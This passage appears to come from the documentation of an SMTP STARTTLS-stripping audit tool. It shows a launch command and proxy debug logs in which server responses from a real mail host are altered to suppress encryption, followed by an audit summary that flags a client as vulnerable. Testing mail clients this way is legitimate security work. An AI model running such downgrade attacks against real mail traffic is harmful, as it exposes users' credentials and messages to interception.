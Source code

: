 	- DEBUG    - <Session 0xffd0926cL> [client] <= [server][mangled] '250-gmx.com Hello [192.168.139.1] [xxx.xxx.xxx.xxx]\r\n250-SIZE 31457280\r\n250 AUTH LOGIN PLAIN\r\n'
	- WARNING  - <Session 0xffd0926cL> terminated.
	- DEBUG    - <ProtocolDetect 0xffd093ccL protocol_id=PROTO_SMTP len_history=0> - protocol detected (target port)
	- INFO     - <Session 0xffd0934cL> client ('127.0.0.1', 28911) has connected
	- INFO     - <Session 0xffd0934cL> connecting to target ('mail.gmx.net', 25)
	- DEBUG    - <Session 0xffd0934cL> [client] <= [server]          '220 gmx.com (mrgmx002) Nemesis ESMTP Service ready\r\n'
	- DEBUG    - <RewriteDispatcher  - changed mangle: striptls.StripWithError new: True>
	- DEBUG    - <Session 0xffd0934cL> [client] => [server]          'ehlo [192.168.139.1]\r\n'
	- DEBUG    - <Session 0xffd0934cL> [client] <= [server]          '250-gmx.com Hello [192.168.139.1] [xxx.xxx.xxx.xxx]\r\n250-SIZE 31457280\r\n250-AUTH LOGIN PLAIN\r\n250 STARTTLS\r\n'
	- DEBUG    - <Session 0xffd0934cL> [client] => [server]          'STARTTLS\r\n'
	- DEBUG    - <Session 0xffd0934cL> [client] <= [server][mangled] '501 Syntax error\r\n'
	- DEBUG    - <Session 0xffd0934cL> [client] => [server][mangled] None
	- DEBUG    - <Session 0xffd0934cL> [client] => [server]          'mail FROM:<a@b.com> size=10\r\n'
	- DEBUG    - <Session 0xffd0934cL> [client] <= [server]          '530 Authentication required\r\n'
	- DEBUG    - <Session 0xffd0934cL> [client] => [server]          'rset\r\n'
	- DEBUG    - <Session 0xffd0934cL> [client] <= [server]          '250 OK\r\n'
	- WARNING  - <Session 0xffd0934cL> terminated.
	- WARNING  - Ctrl C - Stopping server
	- INFO     -  -- audit results --
	- INFO     - [*] client: 127.0.0.1
	- INFO     -     [Vulnerable!] <class striptls.StripWithInvalidResponseCode at 0xffd3138c>
	- INFO     -     [Vulnerable!] <class striptls.StripWithTemporaryError at 0xffd4611c>
	- INFO     -     [           ] <class striptls.StripFromCapabilities at 0xffd316bc>
	- INFO     -     [Vulnerable!] <class striptls.StripWithError at 0xffd4614c>


### Strip STARTTLS from server capabilities

	#> python striptls --listen=localhost:8825 --remote=mail.gmx.net:25 --test=SMTP.StripFromCapabilities
	- INFO     - <Proxy 0x1fe6e70 listen=('localhost', 8825) target=('mail.gmx.net', 25)> ready.
	- INFO     - <RewriteDispatcher attacks={25: set([<class __main__.StripFromCapabilities at 0x01FE77D8>])}>
	- DEBUG    - <ProtocolDetect 0x1fe6f90 is_protocol=PROTO_SMTP len_history=0> - protocol detected (target port)
	- INFO     - <Session 0x1fe6f10> client ('127.0.0.1', 20070) has connected
	- INFO     - <Session 0x1fe6f10> connecting to target ('mail.gmx.net', 25)
	- DEBUG    - <Session 0x1fe6f10> [client] <= [server]          '220 gmx.com (mrgmx003) Nemesis ESMTP Service ready\r\n'
	- DEBUG    - <Session 0x1fe6f10> [client] => [server]          'ehlo [192.168.139.1]\r\n'
	- DEBUG    - <Session 0x1fe6f10> [client] <= [server]          '250-gmx.com Hello [192.168.139.1] [xxx.xxx.xxx.xxx]\r\n250-SIZE 31457280\r\n250-AUTH LOGIN PLAIN\r\n250 STARTTLS\r\n'
	- DEBUG    - <Session 0x1fe6f10> [client] <= [server][mangled] '250-gmx.com Hello [192.168.139.1] [xxx.xxx.xxx.xxx]\r\n250-SIZE 31457280\r\n250 AUTH LOGIN PLAIN\r\n'
	- DEBUG    - <Session 0x1fe6f10> [client] => [server]          'mail FROM:<a@b.com> size=10\r\n'
	- DEBUG    - <Session 0x1fe6f10> [client] <= [server]          '530 Authentication required\r\n'
	- DEBUG    - <Session 0x1fe6f10> [client] => [server]          'rset\r\n'
	- DEBUG    - <Session 0x1fe6f10> [client] <= [server]          '250 OK\r\n'
	- WARNING  - <Session 0x1fe6f10> terminated.
